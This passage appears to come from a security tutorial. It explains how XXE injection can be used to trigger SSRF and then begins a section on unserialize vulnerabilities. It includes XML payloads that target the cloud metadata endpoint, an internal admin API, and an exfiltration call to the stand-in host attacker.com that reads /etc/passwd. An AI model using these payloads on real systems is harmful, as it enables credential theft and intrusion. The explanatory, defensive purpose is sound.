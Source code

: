 
### 2.XXE+SSRF

  - Combining *XXE (XML External Entity)* and *SSRF (Server-Side Request Forgery)* can lead to powerful attacks where an attacker leverages XXE to trigger SSRF.
  - This allows the attacker to make the server perform unauthorized requests to internal or external systems, potentially accessing sensitive data or exploiting internal services.


#### How XXE and SSRF Work Together:
  1. **XXE for SSRF**:
    - An attacker injects malicious XML with an external entity that references an internal or external URL.
    - The XML parser resolves the entity and makes a request to the specified URL.

  2. **Impact**:
    - Access to internal services (e.g., databases, APIs).
    - Data exfiltration (e.g., fetching sensitive files or metadata).
    - Exploitation of internal systems (e.g., cloud metadata services).

#### Example Attack Scenario:
  1. **Exploiting Cloud Metadata Services**:
    - In cloud environments (e.g., AWS, Azure), metadata services (e.g., AWS EC2 metadata service at `http://169.254.169.254`) can be accessed to retrieve sensitive information like IAM credentials.
    - Example XXE Payload:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
      <foo>&xxe;</foo>
      ```
    - The server makes a request to the metadata service and returns the response.

  2. **Accessing Internal APIs**:
    - An attacker can use XXE to access internal APIs that are not exposed to the public.
    - Example XXE Payload:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-api/admin"> ]>
      <foo>&xxe;</foo>
      ```

  3. **Exfiltrating Data**:
    - An attacker can exfiltrate data by making the server send requests to an attacker-controlled server.
    - Example XXE Payload:
      ```xml
      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd"> ]>
      <foo>&xxe;</foo>
      ```


### 3.Unserialize Vulnerability
 - is a security issue that occurs when an application deserializes untrusted data without proper validation or sanitization. 
 - This can lead to serious consequences, such as remote code execution (RCE), denial of service (DoS), or data tampering.

